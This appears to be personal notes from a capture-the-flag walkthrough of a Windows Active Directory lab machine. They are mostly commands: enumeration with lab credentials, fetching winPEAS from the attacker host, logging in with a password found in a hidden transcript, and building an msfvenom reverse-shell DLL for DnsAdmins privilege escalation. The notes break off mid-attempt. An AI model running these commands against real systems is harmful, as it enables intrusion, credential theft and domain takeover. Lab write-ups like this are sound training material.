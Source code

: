 
```
bloodhound-python -d MEGABANK.local -u melanie -p 'Welcome123!' -ns 10.10.10.169 -c all
```
![[Pasted image 20240506061911.png]]

Winpeas
```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240506062115.png]]

```
crackmapexec smb 10.10.10.169 -u melanie -p 'Welcome123!' --shares
```

So my intuition was right there is something hidden and i can smell it but don't know the command for it.
```
dir -Force
```

![[Pasted image 20240506070133.png]]

![[Pasted image 20240506070800.png]]

PS Transcripts seems fishy to meeeeeeeeeeeee 
And the interesting thing is that file is hidden again
```
C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
![[Pasted image 20240506071315.png]]

Let's peak into the file and see if we can get some thing interesting from it
User
```
ryan
```

Password
```
Serv3r4Admin4cc123!
```

![[Pasted image 20240506071656.png]]


Let's evil-winrm and see the group and what we can do with it and the privileges we have
```
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169
```
![[Pasted image 20240506071911.png]]

```
secretsdump.py MEGABANK.LOCAL/ryan:'Serv3r4Admin4cc123!'@10.10.10.169
```
It didn't worked

![[Pasted image 20240506072229.png]]

So the group that stands out is DnsAdmins
![[Pasted image 20240506072623.png]]

https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83

https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b

Reverse DLL
```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.16.20 LPORT=9001 -f dll > rev.dll
```
![[Pasted image 20240507011836.png]]

We have to use LOLbins
https://lolbas-project.github.io/

![[Pasted image 20240506081837.png]]

I think we have to host the fill remotely or i am doing something
```
impacket-smbserver Toolkit $(pwd)
```

```

```
